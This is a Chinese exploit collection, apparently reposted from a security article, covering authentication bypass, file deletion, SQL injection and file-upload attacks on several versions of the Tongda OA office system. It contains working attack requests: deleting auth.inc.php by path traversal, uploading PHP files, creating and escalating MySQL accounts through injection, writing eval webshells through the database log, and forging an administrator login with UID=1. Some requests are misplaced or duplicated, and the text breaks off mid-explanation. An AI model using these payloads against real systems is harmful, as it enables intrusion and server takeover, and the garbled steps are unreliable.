# 通达OA 多版本认证绕过、删除、SQL 注入与上传集合

## 条目说明

- 对象与具体问题：通达OA；多版本认证绕过、删除、SQLi与上传集合
- 版本、配置及部署条件：11.2/11.3/11.5/11.6/11.7分别
- 认证与权限前提：未授权、后台、DB权限混合
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 11.7权限赋予段错放logincheck请求；日程SQLi错放upload请求
- multipart缺name/filename，HTTP缺空行，SQL曲引号
- 删除auth.inc.php破坏文件并解除鉴权；DB账号/超级权限/日志配置更改无恢复步骤
- delete_cascade与扫码内容重复，来源归属不清

## 操作风险

请求可能删除/覆盖数据、修改账号或持久改变业务状态；文件写入/上传示例可能留下文件、覆盖数据或触发脚本执行。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/HK0jStWzqrQVXKmgzYYljg)

**高质量的安全文章，安全 offer 面试经验分享**

**尽在 # 掌控安全 EDU #**

  


作者：掌控安全 - mss

  

01

信息收集

  

#### 判断通达版本

inc/expired.php  

  
  

inc/reg_trial.php

  
  

inc\reg_trial_submit.php



#### 用户名 / 邮箱收集

ispirit/retrieve_pwd.php?username=admin  





#### 计算机名

resque/worker.php



  

02

通达 OA11.6 绕过身份验证 + 任意文件上传

  

1. 访问`/module/appbuilder/assets/print.php?guid=../../../webroot/inc/auth.inc.php`, 删除`auth.inc.php`  

2. 构造 post 数据包上传文件

```http
POST /general/data_center/utils/upload.php?action=upload&filetype=nmsl&repkid=/.%3C%3E./.%3C%3E./.%3C%3E./ HTTP/1.1
Host: 192.168.179.128:96
User-Agent: python-requests/2.23.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Content-Length: 855
Content-Type: multipart/form-data; boundary=abc


--abc
Content-Disposition: form-data; 


<?php echo test?>


--abc--
```

> 请求长度说明：原资料 Content-Length 为 855；保留原始标头；其数值未据实际请求体重新计算或验证。

  

py 脚本：https://github.com/TomAPU/poc_and_exp/blob/master/rce.py

  

03

11.7 注入漏洞

  

注入点在后台在`general/hr/manage/query/delete_cascade.php?condition_cascade=语句`

**1. 登陆后构造一个语句创建一个账号用于远程登录数据库，**

构造前

  
构造`grant all privileges ON mysql.* TO 'test'@'%' IDENTIFIED BY 'test' WITH GRANT OPTION`





**2. 赋予权限**

执行一些指令报错，给设置的账号权限

  
在数据库里构造

```http
POST /logincheck_code.php HTTP/1.1
Host:192.168.179.128:96
User-Agent:Mozilla/5.0(Windows NT 10.0;Win64; x64; rv:80.0)Gecko/20100101Firefox/80.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 52


CODEUID={BED9DDBF-B3A5-ADAA-F671-9E349EAC7B5D}&UID=1
```

> 请求长度说明：原资料 Content-Length 为 52；保留原始标头；其数值未据实际请求体重新计算或验证。

给用户赋予超级权限，  
在注入点构造`general/hr/manage/query/delete_cascade.php?condition_cascade=flush privileges`刷新权限后重新登录，输入`set global general_log = on;`



**3. 写 shell**

set global general_log_file = ‘C:/toda17/webroot/1.php’;  
select ‘<?php eval($_REQUEST[test]);?>’;





**通达 OA 11.7 后台 sql 注入 getshell 漏洞复现**

**1、漏洞描述：**

该漏洞类型为 SQL 注入，通过 SQL 注入达到 GetShell 目的

**2、漏洞影响版本：**

  
测试版本：通达 OA v11.7 版本  
限制条件：需要账号登录

**3、环境搭建：**

  
自行下载相关的安装包，一键安装，安装的界面如下：





**4、漏洞复现**

  
**SQL 注入**

  
该 SQL 注入漏洞是通过代码审计的时候发现，所以上工具 SeayDzend，然后将我们的源码进行解码，我们审计的时候发现 delete_cascade.php 文件中 condition_cascade 参数存在布尔盲注，审计过程如下：

  
首先进入到 delete_cascade.php 页面，我们知道通达在注册变量时考虑了安全问题，系统会将用户传入的数据用 addslashes 函数进行保护，

但是回到判断 $condition_cascade 传参，这里发现传参如果不为空，又将其中的 \’替换为’ ，导致漏洞的存在。





接下来对其进行测试。

  
我们发现直接进行访问是行不通的，所以这里有一个限制条件，需要一个账号进行登录，我们搭建的时候默认的账号是 admin，密码是空，先进行登录

  
这个是正常的页面，接下来我们对其 condition_cascade 传参进行布尔盲注测试



  
这时候我们好像遇到了困难，输入的语句中存在 sleep 的时候触发了通达 OA 的安全验证机制，为了更好的绕过，我们去看看源代码中的安全检测机制，





这里我们发现只是过滤了一些字符，并非无法进行绕过，盲注的核心是：substr、if、Left 等函数，这些均未被过滤，所以我们可以考虑从这些入手。

  
这时候我们只要构造 MySQL 报错即可配合 if 函数进行盲注了，但是语句的构造还是会存在问题，这时候我们去查看类似文章分享，发现 power() 函数也可以使数据库报错，

所以构造语句：  
select%20if((substr((select%20user()),1,1)=%27r%27),1,power(6666,666));





构造利用链达到 getshell  
传参处尝试进行用户的添加

  
进行连接试试



  
发现添加成功了，这个时候我们就会给用户相应的权限，这里在数据库中进行对该用户赋予超级权限，UPDATE`mysql`.`user` SET `Super_priv` = ‘Y’ WHERE `User` = ‘test123’  
接着我们在注入点进行权限的刷新 condition_cascade=flush privileges;

  
重新登录之后我们知道写 shell 需要知道一定的路径，这个时候我们可以先查看一下路径，我们只是进入了数据库，可以根据数据库的信息进行猜测

  
这个时候我们可以知道根目录是 OA17  
接着对其进行写 shell 操作  
set global general_log = on;  
set global general_log_file = ‘C:/OA17/webroot/1.php’;  
select ‘<?php eval($_POST[8]);?>’;

  
成功写入，连蚁剑

  
成功 getshell!

  
**5、修复建议**

更新官方发布补丁

  

04

11.5 注入漏洞

  

**报表处 sql 注入**
--------------

条件: 需要一个账号  
URL:`general/appbuilder/web/report/repdetail/edit?link_type=false&slot={}&id=2*`

  
sqlmap:`python3 sqlmap.py -u "xxxx.com/general/appbuilder/web/report/repdetail/edit?link_type=false&slot={}&id=2*" --cookie="你的cookie"`



**查询日程处 sql 注入**
----------------

  
条件：需要账号  
POST 包：

```http
POST /general/data_center/utils/upload.php?action=upload&filetype=nmsl&repkid=/.%3C%3E./.%3C%3E./.%3C%3E./ HTTP/1.1
Host:192.168.179.128:96
User-Agent: python-requests/2.23.0
Accept-Encoding: gzip, deflate
Accept:*/*
Connection: keep-alive
Content-Length: 855
Content-Type: multipart/form-data; boundary=abc


--abc
Content-Disposition: form-data; 


<?php echo test?>


--abc--
```

> 请求长度说明：原资料 Content-Length 为 855；保留原始标头；其数值未据实际请求体重新计算或验证。

SQLMAP:`python3 sqlmap.py -r “1.txt”  

  

05

version < 11.5 未授权访问 & 文件上传

  

1. 访问`general/login_code.php`



  
得到 code_uid:`BED9DDBF-B3A5-ADAA-F671-9E349EAC7B5D`

构造如下 post 包

```http
POST /logincheck_code.php HTTP/1.1
Host:192.168.179.128:96
User-Agent:Mozilla/5.0(Windows NT 10.0;Win64; x64; rv:80.0)Gecko/20100101Firefox/80.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 52
CODEUID={BED9DDBF-B3A5-ADAA-F671-9E349EAC7B5D}&UID=1
```

得到 cookie

2. 替换 cookie，访问`general/index.php?is_modify_pwd=1`



构造如下数据包

```http
POST /general/data_center/utils/upload.php?action=upload&filetype=nmsl&repkid=/.%3C%3E./.%3C%3E./.%3C%3E./ HTTP/1.1
Host:192.168.179.128:96
User-Agent: python-requests/2.23.0
Accept-Encoding: gzip, deflate
Accept:*/*
Connection: keep-alive
Content-Length: 855
Content-Type: multipart/form-data; boundary=abc
--abc
Content-Disposition: form-data; 
<?php echo test?>
--abc--
```

  

  

06

通达 OA 前台任意用户登录漏洞

  

**1、通达简介**

通达 OA 是一套在国内常用的办公系统，它的使用群体，大小公司都有，它是采用了基于 web 的企业计算，有着世界上最先进的 Apache 服务，性能稳定且可靠，对于数据的存储集中控制，后台有着多级的权限管理，完善的登录机制和密码验证功能。

  
**2、漏洞描述**

该漏洞类型为任意用户伪造，未经授权的远程攻击者可以在远程且未经授权的情况下，通过精心构造的请求包进行任意用户伪造登录（包括系统管理员）。

**3、漏洞影响版本**

通达 OA2017、V11.X<V11.5

**4、环境搭建**

自行下载相关的安装包，一键安装，这里以 V11.3 版本为例，安装的界面如下：





**5、漏洞复现**

**手工注入**

我们刚刚开始的时候如果访问这个链接页面的时候我们发现是没有权限的



接着我们去到我们的登录页面进行抓包分析，看是否存在验证身份的传参  



我们发现是不存在什么验证身份信息的，但是我们可以看到有 PHPSESSID,

这个时候我们是否会想，如果我得到管理员或者其他用户的 PHPSESSID 加上身份验证传参是否就可以登录。

我们正常登录的时候我们会发现会跳转至 logincheck.php



我们可以去到源码分析，发现源码加密了，这里用软件 SeayDzend.exe 进行解密，接着发现 logincheck.php 引用了 logincheck_code.php 进行身份验证



分析发现这里直接获取 POST[‘UID’] 参数，然后直接带进 SQL 语句查询，这里没有去验证用户密码，这里猜测 UID 是什么的时候是管理员，我们这里可以进入 mysql5 目录，

查看 my.ini 获取密码，进入 TO_OA 数据库，查询上述语句 SELECT * from USER where UID=’$UID’，查看结果发现 UID 为 1 的时候是管理员用户。



我们继续往下看，当我们在 logincheck_code.php 中 POST 传入 UID=1 的时候，

经过 logincheck_code.php 的 SQL 查询操作，

